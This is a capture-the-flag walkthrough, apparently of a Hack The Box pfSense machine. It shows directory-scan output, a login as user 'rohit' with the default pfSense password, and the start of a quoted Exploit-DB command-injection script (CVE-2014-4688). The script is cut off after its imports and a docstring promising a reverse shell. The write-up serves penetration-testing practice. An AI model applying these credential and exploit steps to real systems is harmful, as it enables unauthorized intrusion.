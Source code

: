```console
/status.php           (Status: 200) [Size: 6691]                                  
/javascript           (Status: 301) [Size: 0] [--> https://10.129.51.37/javascript/]
/changelog.txt        (Status: 200) [Size: 271]                                     
/classes              (Status: 301) [Size: 0] [--> https://10.129.51.37/classes/]   
/exec.php             (Status: 200) [Size: 6689]                                    
/widgets              (Status: 301) [Size: 0] [--> https://10.129.51.37/widgets/]   
/graph.php            (Status: 200) [Size: 6690]                                    
/tree                 (Status: 301) [Size: 0] [--> https://10.129.51.37/tree/]      
/wizard.php           (Status: 200) [Size: 6691]                                    
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.51.37/shortcuts/] 
/pkg.php              (Status: 200) [Size: 6688]                                    
/installer            (Status: 301) [Size: 0] [--> https://10.129.51.37/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.129.51.37/wizards/]   
/xmlrpc.php           (Status: 200) [Size: 384]                                     
/reboot.php           (Status: 200) [Size: 6691]                                    
/interfaces.php       (Status: 200) [Size: 6695]                                    
/csrf                 (Status: 301) [Size: 0] [--> https://10.129.51.37/csrf/]      
/system-users.txt     (Status: 200) [Size: 106]                                     
/filebrowser          (Status: 301) [Size: 0] [--> https://10.129.51.37/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]                                      
                                                                                     
===============================================================
2022/08/31 23:40:41 Finished
===============================================================
```
This file reveals a user ```rohit``` and suggests that it is using a default password.


![image](https://user-images.githubusercontent.com/105310322/187796644-fe1e91c7-0ad6-42aa-9c39-81f48935d52e.png)

Login with user ```rohit``` and the default password for pfsense is ```pfsense```

Awesome we are in and we can see the version number for the pfsense is 2.1.3 so lets find an exploit for this.

![image](https://user-images.githubusercontent.com/105310322/187797528-2117d116-9224-4e45-9240-0e583756b6d3.png)

This exploit was found here https://www.exploit-db.com/exploits/43560

This exploit only works if there is ```status_rrd_graph_img.php``` and we can confirm that by going to the webpage.

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

```